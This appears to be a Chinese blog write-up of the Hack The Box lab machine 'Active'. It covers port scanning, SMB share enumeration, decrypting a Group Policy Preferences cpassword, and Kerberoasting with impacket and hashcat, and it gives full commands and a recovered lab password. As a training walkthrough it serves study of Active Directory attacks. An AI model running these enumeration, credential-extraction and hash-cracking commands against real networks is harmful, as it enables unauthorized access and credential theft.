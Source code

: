 ```yaml
---
title: Active（windows LDAP活动目录）
categories:
- training
tags:
- training
---
```

参考资料：[smbclient](https://whale3070.github.io/tools/2016/12/12/x/)

## scan

```
53/tcp    open  domain        Microsoft DNS 6.1.7601
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2019-01-02 04:44:03Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49182/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## analysing
参考资料：[windows active directory](https://zh.wikipedia.org/wiki/Active_Directory)

`53/tcp    open  domain        Microsoft DNS 6.1.7601`
以上结果说明了，这是一台域名服务器（Domain Name System server），active.htb

搜索一下“Microsoft DNS 6.1.7601”，即可得知系统版本——Windows 2008 R2 Standard version

## smb协议探测（Server Message Block protocol）
445端口是用来共享文件夹或者打印机的
```
nmap --script safe -p445 10.10.10.100

smbclient -L //10.10.10.100

smbmap -H 10.10.10.100
```
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/8.PNG)

smbclient //10.10.10.100/Replication
WARNING: The "syslog" option is deprecated
protocol negotiation failed: NT_STATUS_CONNECTION_RESET

## smbmap
SMBMap - Samba Share Enumerator

用smbmap -h可以查看帮助文档

-R是递归列出某目录
![9](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/9.PNG)

```
获得信息：
	.\\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	.
	dr--r--r--                0 Sat Jul 21 18:37:44 2018	..
	-r--r--r--              533 Sat Jul 21 18:38:11 2018	Groups.xml
```
下载文件: `smbmap -H 10.10.10.100 -R Replication -A Groups.xml`
```
获得信息2：
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS"
```
## 破解cpassword

参考资料：[Exploiting GPP - Credential Storage in Groups.xml File](https://www.youtube.com/watch?v=ks4aNbArOtk)
[工具下载**gpprefdecrypt.ps1**](https://github.com/reider-roque/pentest-tools/blob/master/password-cracking/gpprefdecrypt/gpprefdecrypt.ps1)

```
cmd.exe 右键以管理员身份运行
cd C:\Users\whale\Desktop
powershell.exe ./gpprefdecrypt.ps1 edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/10.PNG)
`GPPstillStandingStrong2k18`

#### 问题
期间出现windows不允许执行ps1脚本。
解决办法：以管理员身份运行powershell，输入以下命令，然后输入Y。
```
set-executionpolicy remotesigned
```
#### 方法二：
kali工具破解：
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```
## 域用户提权
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100`
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/11.PNG)

可以发现，多了三个目录可读。依次检查这些目录，获得了user.txt。
`smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.10.10.100 -R Users -A user.txt`

**Kerberoasting**
[GetUserSPNs.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py)

Kerberoasting是从票据分发服务中破解hash，来获得明文密码。

Kerberos身份验证使用服务主体名称（SPN）来标识关联的帐户。

```
ldapsearch -x -h 10.10.10.100 -p 389 -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b "dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))" serviceprincipalname | grep -B 1 servicePrincipalName

locate GetUserSPNs.py

/usr/share/doc/python-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

```
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/12.PNG)

```
apt install exim4-config
apt-get install pocl-opencl-icd
apt-get install libhwloc-dev ocl-icd-dev ocl-icd-opencl-dev
apt-get upgrade hashcat 更新了一下hashcat，然后就可以正常运行了
hashcat -m 13100 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force --potfile-disable

john --format:krb5tgs GetUserSPNs.out --wordlist=/usr/share/wordlists/rockyou.txt
```
![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/13.PNG)
如果字典里没有正确的密码，hashcat会提示
```
[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => 
```
这个时候就要换字典，再次尝试，或者放弃。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/01-15/14.PNG)
## 总结

工作组和域
[工作组和域的区别](https://www.douban.com/note/527276260/)

域一般用在比较大的网络里，需要一台域控服务器，其他计算机要互相访问就要经过它。

工作组比较小（网上邻居），没有控制彼此访问的服务器。

下次继续学习windows域渗透。。。



